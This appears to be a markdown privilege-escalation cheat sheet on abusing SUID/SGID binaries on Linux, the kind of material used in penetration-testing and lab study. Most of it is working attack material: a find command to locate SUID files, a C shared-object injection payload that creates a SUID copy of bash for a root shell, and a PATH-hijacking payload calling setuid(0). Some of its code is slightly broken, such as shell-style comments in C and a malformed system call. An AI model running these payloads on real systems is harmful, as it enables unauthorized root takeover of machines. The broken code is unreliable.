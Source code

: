 ## SUID/SGUID Files
If a file owned by root has the SUID or SGID bit set, then we may be able to use those files to gain root access, as those files are run with an EUID of root. SUID and SGID files can be found using the following command:  

`$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`  

We can then find SUID binaries that can be exploited, either using GTFOBins, Searchsploit, Google, etc.

### Shared Object Injection
If a program attempts to call a shared object that does not exist, we can put our own malicous shared object in the directory that it is looking in. To check if a program is looking for a shared library that does not exist, we can use the following `strace` command:  

`$ strace /usr/bin/<vulnerable-suid-program> 2>&1 | grep -i -E "open|access|no such file"`

We can then create our own shared library:
```
#include <stdio.h>
#include <stdlib.h>

# GCC attribute which will be run when a shared library is loaded.
static void inject() __attribute__((constructor));

void inject() {
  # copies over /bin/bash and adds SUID bit to get root shell
  system("cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash && /tmp/rootbash -p");
}
```  
We can then compile it with the following (make sure the new shared library is saved to the directory that the SUID binary is looking in):  

`gcc -shared -o /home/user/custom.so -fPIC /home/user/custom.c`  

Then just run the shared library, and you should be root!

### PATH variable
If a SUID program tries to execute a program without giving the full path, the shell will search the PATH environment variable for the program. Since we can control our PATH variable, we can tell the program where to look for the program it is trying to execute. We can run strings on the program to find the name of other programs it could be trying to execute. We can also use strace or ltrace to do this aswell:  

`$ strings /path/to/command`\
`$ strace -v- f- e execve /path/to/command 2>&1 | grep exec`\
`$ ltrace /path/to/command`  

Now we can create a malicous version of the program that the SUID program is trying to run:  

`int main() {setuid(0);system"/bin/bash -p");`  

First compile it with the same name as the program that is trying to be run by the SUID program. Then we can change our PATH to include the directory with our new program, 
and then run the SUID program.

